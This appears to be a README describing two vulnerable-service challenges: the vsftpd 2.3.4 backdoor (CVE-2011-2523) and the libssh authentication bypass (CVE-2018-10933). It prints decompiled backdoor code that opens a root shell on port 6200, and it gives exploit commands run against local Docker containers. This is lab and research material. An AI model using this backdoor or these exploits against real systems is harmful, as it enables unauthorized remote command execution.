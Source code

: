 # CVE-2011-2523 : vsftpd Backdoor Command Execution (cve-1)
Run [docker image](https://github.com/Anon-Exploiter/vulnerable-packages) and run [exp.py](https://github.com/padsalatushal/CVE-2011-2523), you can get a shell on the port '6200' from the docker container.
We decompile vsftpd and get the decompiled file: cve1de.c. We can find the backdoor:
```c
//----- (0000000000016100) ----------------------------------------------------
void __noreturn sub_16100()
{
  int v0; // eax
  int v1; // ebp
  int v2; // ebx
  struct sockaddr v3; // [rsp+0h] [rbp-38h] BYREF
  unsigned __int64 v4; // [rsp+18h] [rbp-20h]

  v4 = __readfsqword(0x28u);
  v0 = socket(2, 1, 0);
  if ( v0 >= 0 )
  {
    *(_QWORD *)&v3.sa_data[2] = 0LL;
    *(_DWORD *)&v3.sa_data[10] = 0;
    v1 = v0;
    *(_DWORD *)&v3.sa_family = 941096962;
    if ( bind(v0, &v3, 0x10u) >= 0 && listen(v1, 100) != -1 )
    {
      while ( 1 )
      {
        v2 = accept(v1, 0LL, 0LL);
        close(0);
        close(1);
        close(2);
        dup2(v2, 0);
        dup2(v2, 1);
        dup2(v2, 2);
        execl("/bin/sh", "sh", 0LL);
      }
    }
  }
  exit(1);
}

//----- (000000000000CF10) ----------------------------------------------------
__int64 __fastcall sub_CF10(__int64 a1)
{
  unsigned int v1; // ebx
  __int64 v2; // r12

  if ( !*(_DWORD *)(a1 + 8) )
    return 0LL;
  v1 = 0;
  while ( 1 )
  {
    v2 = v1;
    if ( (unsigned int)sub_13490(*(char *)(*(_QWORD *)a1 + v1)) )
      break;
    ++v1;
    if ( *(_BYTE *)(*(_QWORD *)a1 + v2) == 58 && *(_BYTE *)(*(_QWORD *)a1 + v1) == 41 )
      sub_16100();
    if ( *(_DWORD *)(a1 + 8) <= v1 )
      return 0LL;
  }
  return 1LL;
}
// 16100: using guessed type void __noreturn sub_16100(void);
```

# CVE-2018-10933 : libssh Authentication Bypass Vulnerability (cve-2)
[Setup](https://github.com/vulhub/vulhub/tree/master/libssh/CVE-2018-10933):

```
docker compose up -d
```
Vulnerable file `ssh_server_fork` is running on port 22 (maps to port 2222). Exploit:
```
python exp.py 127.0.0.1 2222 "ps aux"
```


But the core bug is not in `ssh_server_fork`, it is in libssh. So we statically link libssh into `ssh_server_fork_static` by [CMakeLists_static.txt](./cve-2/libssh-0.8/static/CMakeLists_static.txt), and we use `ssh_server_fork_static` as Pwn Challenge file.
If you want to compile `ssh_server_fork_static`, you need to replace the content of `CMakeLists.txt` with `/cve-2/libssh-0.8/static/CMakeLists_static.txt`, which is in `/usr/src/examples/` of the container.
In the container, the target SSH server runs by:
```
ssh_server_fork_static --hostkey=/etc/ssh/ssh_host_rsa_key --ecdsakey=/etc/ssh/ssh_host_ecdsa_key --dsakey=/etc/ssh/ssh_host_dsa_key --rsakey=/etc/ssh/ssh_host_rsa_key -p 21 0.0.0.0
```
Exploit:
```
python exp.py 127.0.0.1 2221 "ps aux"
```